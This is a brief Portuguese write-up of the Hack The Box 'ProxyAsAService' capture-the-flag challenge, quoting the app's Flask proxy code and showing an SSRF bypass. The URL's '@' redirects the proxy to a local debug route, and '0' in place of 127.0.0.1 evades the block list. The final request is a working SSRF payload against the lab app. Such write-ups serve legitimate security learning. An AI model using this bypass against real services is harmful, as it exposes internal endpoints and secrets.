 #ctf 

https://app.hackthebox.com/challenges/ProxyAsAService

Para conseguir pegar a flag, precisamos acessar a rota `/debug/environment`. Porém ela só pode ser acessada localmente.

```python
def is_from_localhost(func):
	@functools.wraps(func)
	def check_ip(*args, **kwargs):
		if request.remote_addr != '127.0.0.1':
			return abort(403)
		return func(*args, **kwargs)
	return check_ip
```

A rota principal concatena o que está na query `url` com o `SITE_NAME`. 

```python
SITE_NAME = 'reddit.com'

@proxy_api.route('/', methods=['GET', 'POST'])
def proxy():
	url = request.args.get('url')

	if not url:
		cat_meme_subreddits = [
			'/r/cats/',
			'/r/catpictures',
			'/r/catvideos/'
		]
	
		random_subreddit = random.choice(cat_meme_subreddits)
		return redirect(url_for('.proxy', url=random_subreddit))

	target_url = f'http://{SITE_NAME}{url}'
	response, headers = proxy_req(target_url)
	return Response(response.content, response.status_code, headers.items())
```

É possível burlar essa concatenação e fazer o app acessar o nosso site manipulando a url com `@`, assim a requisição vai para o que veio depois do sinal ([[SSRF]]): 

```
http://reddit.com@127.0.0.1:1337/debug/environment
```

Ainda há mais um passo para fazer, pois ao usar essa url é retornado 403. A rota principal verifica se na url contém as seguintes strings: `RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']`. Então é necessário burlar e uma forma simples é trocar `127.0.0.1` para 0

```
/?url=@0:1337/debug/environment
```

GG